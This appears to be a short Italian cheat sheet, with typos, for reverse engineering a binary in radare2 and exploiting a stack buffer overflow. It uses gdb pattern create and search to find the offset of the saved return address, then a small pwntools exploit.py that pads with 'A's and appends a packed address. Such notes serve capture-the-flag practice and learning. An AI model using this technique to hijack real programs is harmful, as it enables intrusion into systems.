 radare2 .\nome_file

aaa

afl

iz	[VEDI LISTA OBA CHE FA]
ie	[VEDI ENTY POINT]
iM	[VEDI MAIN]

pdf @nome_funzione   o   s nome_funzione 	[MOSTA nome_funzione]
			 pdf	

V 	[VISUAL APPESENTATION OF THE BINAY]

______________________________

Se trovi segmentation fault: (fgets, in quanto funzione vecchi)
______________________________

un volta che si che è seg. fault:

gdb -q .\file_name

pattern crete 100000 

run

*paste di quello che ti dà il pattern*

Guarda I REGISTRI [RBP] e [RSP] che in questo caso sono quelli con là nostra stinga
Guarda L'INDIRIZZO CONTENUTO NEL REGISTRO [RIP] e Ricordalo per dopo

copia i primi 3 char di ogni Registro e fai:

pattern search ***        [*** sono i 3 char]

calcola l'offset di entrambi (il secondo Registro è il più accurato) e Ricordatelo
___________________________________________

Crea UN FILE exploit.py

from pwn import *

print ('A' * numero_offset +p32(indirizzo).decode())



